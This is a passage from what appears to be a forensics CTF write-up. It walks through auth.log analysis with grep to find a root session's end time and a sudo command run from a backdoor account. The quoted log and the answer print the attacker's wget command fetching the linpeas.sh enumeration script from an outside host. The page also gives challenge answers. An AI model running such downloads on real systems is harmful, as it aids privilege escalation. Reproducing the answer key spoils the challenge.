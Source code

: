 ```bash
# Look for session closed events for root user
grep "session closed for user root" auth.log

# Find the first session closure after the initial login
grep "session closed.*root" auth.log | head -1

# Cross-reference session numbers to match the first login
```

**Solution Process:**

1. Search for "session closed" events in auth.log
2. Match session numbers with the initial login session
3. Identify the timestamp of the first session termination
4. Ensure it corresponds to the attacking IP address

**Expected Pattern:**

```
Mar 6 06:37:24 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:session): session closed for user root
```

**Answer:** `2024-03-06 06:37:24`

#### Task 8: Backdoor Account Sudo Command

**Question:** The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

**Analysis Approach:**

```bash
# Look for sudo command execution in auth.log
grep "sudo" auth.log

# Search for commands executed by the new user account
grep "cyberjunkie" auth.log | grep -i "command"

# Look for download-related commands (wget, curl, etc.)
grep -E "(wget|curl|download)" auth.log
```

**Solution Process:**

1. Search for sudo command executions in auth.log
2. Filter for activities by the backdoor account (cyberjunkie)
3. Look for download commands (wget, curl, etc.)
4. Extract the full command from the log entry

**Expected Pattern:**

```
Mar 6 06:39:32 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/0 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/wget https://raw.githubusercontent.com/montysecurity/linpeas/main/linpeas.sh
```

**Answer:** `/usr/bin/wget https://raw.githubusercontent.com/montysecurity/linpeas/main/linpeas.sh`
